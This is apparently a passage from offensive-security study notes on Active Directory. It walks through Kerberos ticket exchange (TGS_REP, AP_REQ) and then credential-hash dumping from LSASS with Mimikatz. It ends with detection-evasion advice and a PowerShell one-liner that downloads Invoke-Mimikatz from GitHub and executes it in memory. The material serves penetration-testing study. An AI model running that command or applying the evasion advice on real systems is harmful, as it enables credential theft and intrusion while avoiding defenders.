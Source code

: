 4. If this verification process succeeds, the ticket granting service responds to the client with a Ticket Granting Server Reply or TGS_REP. This packet contains three parts:
    - The SPN to which access has been granted.
    - A session key to be used between the client and the SPN.
    - A service ticket containing the username and group memberships along with the newly-created session key.
The first two parts (SPN and session key) are encrypted using the session key associated with the creation of the TGT and the service ticket is encrypted using the password hash of the service account registered with the SPN in question.

Once the authentication process by the KDC is complete and the client has both a session key and a service ticket, the service authentication begins.

5. First, the client sends to the application server an application request or AP_REQ , which includes the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.

6. The application server decrypts the service ticket using the service account password hash and extracts the username and the session key. It then uses the latter to decrypt the username from the AP_REQ. If the AP_REQ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service.

![image](https://user-images.githubusercontent.com/48137513/198820441-03cbb520-c7b0-4b1c-81a2-146c3b792187.png)

### AD Cached Credentials - Mimikatz
Since Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the [Local Security Authority Subsystem Service (LSASS)](https://technet.microsoft.com/en-us/library/cc961760.aspx) memory space.
- If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions.
- Since the LSASS process is part of the operating system and runs as SYSTEM, we need [**SYSTEM (or local administrator) permissions**](https://gist.github.com/A-Pisani/efa2a11cbf555e7e83c70c9406b730c6#understanding-windows-privileges-and-integrity-levels) to gain access to the hashes stored on a target.

An application used to dump password hashes is [**Mimikatz**](https://github.com/gentilkiwi/mimikatz).

>**Note**:
>In the following example, we will run Mimikatz as a standalone application. However, due to the mainstream popularity of Mimikatz and well-known detection signatures, consider avoiding using it as a standalone application. For example, execute Mimikatz directly from memory using an injector like [PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, [load the data into Mimikatz](https://fuzzysecurity.com/tutorials/18.html).
>
>```cmd
>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz
>```

